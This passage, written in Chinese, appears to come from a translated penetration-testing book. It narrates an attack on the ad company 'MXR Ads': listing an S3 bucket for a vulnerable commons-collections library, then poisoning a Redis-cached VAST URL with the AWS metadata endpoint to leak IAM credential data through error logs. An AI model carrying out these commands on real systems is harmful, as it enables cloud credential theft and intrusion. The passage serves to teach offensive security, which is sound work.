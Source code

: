 ```
root@Point1:~/# **aws s3api list-objects-v2 --bucket mxrads-dl > list_objects_dl.txt**
root@Point1:~/# **grep 'commons-collections' list_objects_dl.txt**

Key: jar/maven/artifact/org.apache.commons-collections/commons-collections/3.3.2
`--snip--`
```

我们找到了 commons-collections 版本 3.3.2，差一点就能成功了。我们本可以尝试盲目利用，假设该存储桶仍然使用本地的旧版本 commons-collections 库，但胜算不大，因此我们继续向前推进。

### 缓存投毒

我们继续探索 Redis 缓存中的其他密钥，希望能获得一些新的灵感：

```
shell> **head -100 all_redis_keys.txt**
vast_c88b4ab3d_19devear
select_3799ec543582b38c
`vast_c88b4ab3d_19devear`
`--snip--`
```

我们列出密钥 `vast_c88b4ab3d_19devear` 的内容，这次找到了一个 URL：

```
shell> **redis -h 10.59.12.47 get vast_c88b4ab3d_19devear**
https://www.goodadsby.com/vast/preview/9612353
```

VAST（视频广告服务模板）是一个标准的 XML 模板，用于向浏览器视频播放器描述广告内容，包括媒体下载的位置、要发送的跟踪事件、在多少秒后、发送到哪个端点等等。以下是一个 VAST 文件的示例，指向存储在 *s4d.mxards.com* 上的名为“Exotic Approach”的广告视频文件：

```
<VAST version="3.0">
<Ad id="1594">
  <InLine>
    <AdSystem>MXR Ads revolution</AdSystem>
    <AdTitle>Exotic approach</AdTitle>
`--snip--`
    <MediaFile id="134130" type="video/mp4" 
        bitrate="626" width="1280" height="720">
       http://s4d.mxrads.com/43ed9014730cb/12ad82436/vid/720/88b4a1cf2.mp4
`--snip--`
```

XML 解析器可以是非常挑剔的怪物——只要标签错误，整个系统就会崩溃。解析器会将比原文件还要大的堆栈追踪信息输出到标准错误输出中。出现了许多异常需要被正确处理……并且记录日志！

你能明白我想表达的意思吗？我们已经获得了访问处理与广告投放相关的应用日志的 pod。如果我们将 VAST URL 替换为例如返回 JSON/文本格式的元数据 API URL，应用程序是否会向 Elasticsearch 审计存储发送详细错误，我们可以查看？

只有一个办法能弄清楚。我们将十几个有效的 VAST URL 替换为臭名昭著的端点 URL `http://169.254.169.254/latest/meta-data/iam/info`，如下所示：

```
shell> **redis -h 10.59.12.47 set vast_c88b4ab3d_19devear\**
**http://169.254.169.254/latest/meta-data/iam/info**
OK
```
